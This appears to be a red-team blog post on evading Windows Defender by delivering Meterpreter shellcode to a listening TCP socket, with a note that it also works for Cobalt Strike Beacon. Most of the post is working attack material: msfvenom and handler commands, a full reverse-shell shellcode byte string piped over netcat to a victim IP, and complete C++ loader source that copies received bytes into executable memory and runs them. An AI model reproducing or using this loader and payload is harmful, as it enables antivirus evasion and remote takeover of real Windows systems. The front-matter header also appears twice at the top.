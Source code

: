 ```yaml
---
layout: post
title: "bypassing windows defender one tcp socket away from meterpreter and cobalt strike beacon"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon/
---
```


---
layout: post
title: "bypassing windows defender one tcp socket away from meterpreter and cobalt strike beacon"
date: 2024-06-18
categories: defense-evasion
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon/
---

# Bypassing Windows Defender: One TCP Socket Away From Meterpreter and Beacon Sessions

## Context

If you've tried executing an out of the box meterpreter payload on the box with Windows Defender, you know it may get picked up right away as can be seen in the below gif:

![](<../../.gitbook/assets/Peek 2019-05-07 21-40.gif>)

This quick lab shows how I was able to execute the off the shelf meterpreter payload against the latest Windows Defender (7th of May at the time of writing) by delivering the shellcode over a TCP socket.

{% hint style="info" %}
**Works with Cobalt Strike Beacon**\
The demo uses metasploit's meterpreter payload, but I have tested this technique with Cobalt Strike beacon and it also bypasses the Windows Defender.
{% endhint %}

## Overview

The technique that allowed me to bypass Windows Defender is simple:

* Victim machine (10.0.0.7) opens up a listening TCP socket on on port 443 (or any other)
* Socket on the victim machine waits for incoming shellcode
* Attacking machine (10.0.0.5) connects to the victim socket and sends the shellcode as binary data
* Victim machine receives the shellcode, allocates executable memory and moves the shellcode there
* Victim machine executes the shellcode received over the network and initiates meterpreter (or cobalt strike beacon) second stage download
* Attacking machine serves the stage and catches the shell

## Execution

Let's write, compile a simple PoC C++ program (see [Code](bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon.md#code) section) that will do all of the steps explained in the overview section.

Let's execute it on the victim machine and check if the socket on port 443 has been opened:

{% code title="attacker@victim" %}
```csharp
netstat -nat | findstr /i listen | findstr /i 443
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-05-07 20-45-02.png>)

Let's generate a staged meterpreter payload and output it to C format:

{% code title="attacker@kali" %}
```csharp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c > meterpreter.c
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-05-07 20-49-59.png>)

Let's setup an msf handler to catch the meterpreter session on the attacking machine:

{% code title="attacker@kali" %}
```csharp
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-05-07 22-23-33.png>)

We can now take the shellcode from the C file and echo it out as a binary data, pipe it to the victim machine (where a TCP socket is listening on 443) via netcat:

{% code title="attacker@kali" %}
```bash
echo -e "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\x0a\x00\x00\x05\x68\x02\x00\x01\xbb\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5" | nc 10.0.0.7 443
```
{% endcode %}

We are now ready to execute the attack. Below shows all of the above in action:

1. Cmd shell in the middle of the screen opens the TCP socket (port 443) on the victim machine
2. Windows Defender below the cmd shell shows the signatures are up to date
3. Top right - msfconsole is waiting and ready to send the second stage from the attacking system
4. Bottom right - attacker sends the shellcode to the victim over the wire via netcat
5. Top right - msfconsole serves the second stage to the victim and establishes the meterpreter session

![](<../../.gitbook/assets/Peek 2019-05-07 21-34.gif>)

## Conclusion

Why this works? I can only speculate. I am a huge fan of Windows Defender and I think it is doing an amazing job at catching evil and I am sure this will be caught very soon.

## Code

```cpp
#include "pch.h"
#include <WinSock2.h>
#include <WS2tcpip.h>
#include <iostream>
#include <Windows.h>
#pragma comment(lib, "ws2_32.lib")

int main()
{
	LPWSADATA wsaData = new WSAData();
	ADDRINFOA *socketHint = new ADDRINFOA();
	ADDRINFOA *addressInfo = new ADDRINFOA();
	SOCKET listenSocket = INVALID_SOCKET;
	SOCKET clientSocket = INVALID_SOCKET;
	CHAR bufferReceivedBytes[4096] = {0};
	INT receivedBytes = 0;
	PCSTR port = "443";

	socketHint->ai_family = AF_INET;
	socketHint->ai_socktype = SOCK_STREAM;
	socketHint->ai_protocol = IPPROTO_TCP;
	socketHint->ai_flags = AI_PASSIVE;

	WSAStartup(MAKEWORD(2, 2), wsaData);
	GetAddrInfoA(NULL, port, socketHint, &addressInfo);

	listenSocket = socket(addressInfo->ai_family, addressInfo->ai_socktype, addressInfo->ai_protocol);
	bind(listenSocket, addressInfo->ai_addr, addressInfo->ai_addrlen);
	listen(listenSocket, SOMAXCONN);
	std::cout << "Listening on TCP port " << port << std::endl;

	clientSocket = accept(listenSocket, NULL, NULL);
	std::cout << "Incoming connection..." << std::endl;
	
	receivedBytes = recv(clientSocket, bufferReceivedBytes, sizeof(bufferReceivedBytes), NULL);
	if (receivedBytes > 0) {
		std::cout << "Received shellcode bytes " << receivedBytes << std::endl;
	}
	
	LPVOID shellcode = VirtualAlloc(NULL, receivedBytes, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	std::cout << "Allocated memory for shellocode at: " << shellcode << std::endl;
	
	memcpy(shellcode, bufferReceivedBytes, sizeof(bufferReceivedBytes));
	std::cout << "Copied shellcode to: " << shellcode << std::endl << "Sending back meterpreter session...";
	((void(*)()) shellcode)();
	
	return 0;
}
```

## References

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/ws2tcpip/nf-ws2tcpip-getaddrinfo" %}

@spotheplanet
